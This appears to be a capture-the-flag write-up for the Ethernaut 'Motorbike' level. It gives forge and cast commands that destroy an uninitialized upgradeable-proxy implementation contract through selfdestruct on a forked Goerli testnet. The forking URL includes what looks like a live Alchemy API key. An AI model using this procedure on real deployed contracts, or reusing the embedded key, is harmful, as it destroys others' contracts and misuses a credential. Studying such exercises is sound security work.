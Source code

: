 The key point of this puzzle is the `engine` contract not been initialized.

After we get level instance, we got instance address:0x1BE977270c1Bdcd00B2dcdF2D760C295D5e7B3b3

Then we can fork goerli testnet

```shell
    anvil -f https://eth-goerli.g.alchemy.com/v2/S21PcG6EE34N4Wf98de9fgi54sO7KN9W
```

Then we can use `cast storage` command to check the `_IMPLEMENTATION_SLOT` slot, and Engine contract is in this address
We got `engine` contract address: 0xe07955bd92f57aef5663c38bf2d721bf756dc3f8

```shell
cast storage --rpc-url http://127.0.0.1:8545 \
0x1BE977270c1Bdcd00B2dcdF2D760C295D5e7B3b3 \
0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc

0x000000000000000000000000e07955bd92f57aef5663c38bf2d721bf756dc3f8
```

Deploy `MotorbikeAttacker` contract on anvil fork testnet.

```shell
forge script --rpc-url http://127.0.0.1:8545 \
--private-key=0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 \
--sender=0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 \
--broadcast -vvvv \
./script/Motorbike.s.sol


✅  [Success]Hash: 0x4e52d9c7c301a62b3b7bf3a1d527616aceb36d2a05166ff8872d135eb6fdc4c3
Contract Address: 0x8FDEA91B1d4510C315861E55a335cc3c0BB774cd
Block: 9770332
Paid: 0.000430635001578995 ETH (143545 gas * 3.000000011 gwei)
```

Call `Motorbike`'s `attack` function

```shell
cast send --rpc-url http://127.0.0.1:8545 \
--private-key=0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 \
0x8FDEA91B1d4510C315861E55a335cc3c0BB774cd \
"attack(address)" 0xe07955bd92f57aef5663c38bf2d721bf756dc3f8
```

At last, we can double check the `engine` contract has been `selfdestruct`ed

```shell
cast codesize \
--rpc-url http://127.0.0.1:8545 \
0xe07955bd92f57aef5663c38bf2d721bf756dc3f8

0
```
